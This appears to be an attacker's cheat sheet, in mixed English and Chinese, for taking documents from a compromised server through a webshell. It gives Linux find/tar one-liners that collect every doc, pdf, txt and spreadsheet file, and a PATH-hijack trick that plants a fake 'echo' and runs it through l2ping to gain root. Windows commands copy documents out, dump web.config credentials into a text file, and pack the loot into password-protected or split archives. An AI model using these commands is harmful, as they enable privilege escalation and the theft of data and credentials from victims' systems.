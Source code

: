 tar -czf code.tar.gz *;tar -T doc.list -czf doc.tar.gz;tar -T docx.list -czf docx.tar.gz;tar -T pdf.list -czf pdf.tar.gz;tar -T txt.list -czf txt.tar.gz;tar -T xls.list -czf xls.tar.gz;tar -T xlsx.list -czf xlsx.tar.gz;tar -T jpg.list -czf jpg.tar.gz;tar -T png.list -czf png.tar.gz

recently I found command1;command2 performs not good to search all files in webshell's upon commonds,better to execute comman1 && command2 if comman1 and command2 cost not few seconds,but a lot seconds to finish executing:

find . -name "*.doc" > doc.list && find . -name "*.docx" > docx.list && find . -name "*.pdf" > pdf.list && find . -name "*.txt" > txt.list && find . -name "*.xls" > xls.list && find . -name "*.xlsx" > xlsx.list
tar -T doc.list -czf doc.tar.gz && tar -T docx.list -czf docx.tar.gz && tar -T pdf.list -czf pdf.tar.gz && tar -T txt.list -czf txt.tar.gz && tar -T xls.list -czf xls.tar.gz && tar -T xlsx.list -czf xlsx.tar.gz

or:
mkdir /tmp/tmp
PATH=/tmp:$PATH;export PATH;echo $PATH;/bin/echo '''find / -name "*.doc" > /tmp/tmp/doc.list && find / -name "*.docx" > /tmp/tmp/docx.list && find / -name "*.pdf" > /tmp/tmp/pdf.list && find / -name "*.txt" > /tmp/tmp/txt.list && find / -name "*.xls" > /tmp/tmp/xls.list && find / -name "*.xlsx" > /tmp/tmp/xlsx.list''' > /tmp/.out;rm /tmp/echo;ln -s /tmp/.out /tmp/echo;chmod +x /tmp/.out;/bin/l2ping > /tmp/.out1;cat /tmp/.out1;rm /tmp/.out1
tar -T /tmp/tmp/doc.list -czf /tmp/tmp/doc.tar.gz && tar -T /tmp/tmp/docx.list -czf /tmp/tmp/docx.tar.gz && tar -T /tmp/tmp/pdf.list -czf /tmp/tmp/pdf.tar.gz && tar -T /tmp/tmp/txt.list -czf /tmp/tmp/txt.tar.gz && tar -T /tmp/tmp/xls.list -czf /tmp/tmp/xls.tar.gz && tar -T /tmp/tmp/xlsx.list -czf /tmp/tmp/xlsx.tar.gz

sometimes when try to execute in this way:
PATH=/tmp:$PATH;export PATH;echo $PATH;/bin/echo '''find / -name "*.doc" > /tmp/tmp/doc.list && find / -name "*.docx" > /tmp/tmp/docx.list && find / -name "*.pdf" > /tmp/tmp/pdf.list && find / -name "*.txt" > /tmp/tmp/txt.list && find / -name "*.xls" > /tmp/tmp/xls.list && find / -name "*.xlsx" > /tmp/tmp/xlsx.list''' > /tmp/.out;rm /tmp/echo;ln -s /tmp/.out /tmp/echo;chmod +x /tmp/.out;/bin/l2ping > /tmp/.out1;cat /tmp/.out1;rm /tmp/.out1

may found it didn't succeed to create list file except for doc.list,then try useing normal webshell's terminal to execute the one without root privilege in one of upon ways


windows:
find /r 目录名 %变量名 in (匹配模式1,匹配模式2) do 命令  eg:echo "yes" | for /r f:\ %i in (*.doc,*.docx,*.pdf,*.xls,*.xlsx,*.txt) do copy "%i" f:\web_r
c:\recycler\rar.exe a -k -r -s -m1 c:\recycler\tmp\tmp.rar c:\recycler\tmp\*.*
7z.exe a -t7z -p123456 c:\test.7z c:\test\*.*
del /f/q folder
rar a /v20m /m0 newfilename web.rar
windows find web.config==>for /r c:\http\ %i in (web.conf?g) do (echo *****filepath***** >> tmp.txt && echo %i >> tmp.txt && type "%i" >> tmp.txt >> tmp.txt && echo. >> tmp.txt)
windows bat批处理for用法:http://blog.csdn.net/wh_19910525/article/details/7912440


windows找文件命令:
for /f %j in ('dir /b /s "c:\MSCOMCTL.O?X"') do (echo %j)
windows找文件中的字符串命令:
findstr /R ".*sa.*" c:\1\* > tmp.txt

powershell:dir –r | select-string "root"
